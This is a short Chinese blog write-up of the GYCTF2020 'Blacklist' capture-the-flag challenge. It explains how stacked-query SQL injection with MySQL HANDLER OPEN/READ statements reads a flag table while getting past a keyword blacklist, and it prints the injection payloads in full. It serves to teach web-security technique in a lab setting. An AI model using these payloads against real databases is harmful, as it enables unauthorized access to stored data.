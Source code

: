 +++
title = 'GYCTF2020---Blacklist'
date = 2024-09-17T02:07:55+08:00
draft = false
categories = ['CS', 'sec', 'wp']
+++

## 题目

一个输入：
![](../../../../img/Pasted%20image%2020240917020558.png)


---
## 分析

### 看看数据库和表

```
1';show databases;#
```
- 注意加分号

![](../../../../img/Pasted%20image%2020240917020645.png)

![](../../../../img/Pasted%20image%2020240917020652.png)


### HANDLER ... OPEN

新姿势：`HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭

```
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```


---
## 原理

`HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭